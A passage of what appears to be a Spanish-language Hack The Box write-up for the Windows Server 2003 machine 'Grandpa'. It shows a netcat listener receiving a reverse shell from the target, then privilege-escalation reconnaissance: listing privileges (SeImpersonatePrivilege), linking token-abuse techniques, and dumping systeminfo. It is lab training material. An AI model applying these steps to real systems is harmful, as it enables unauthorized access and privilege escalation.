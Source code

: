 Obtenemos acceso a la máquina víctima

```
# nc -nlvp 4444       
listening on [any] 4444 ...

connect to [10.10.16.16] from (UNKNOWN) [10.129.95.233] 1031
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

## Privilege escalation

`Listamos privilegios` de nuestro usuario y nos damos cuenta de que tenemos el privilegio `SeImpersonatePrivilege` por lo tanto podemos convertirnos en `Administrator` [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege)

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

`Listamos` información del `sistema` para ver a que `versión` de `windows` nos estamos enfrentando

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANDPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 4 Hours, 53 Minutes, 8 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
```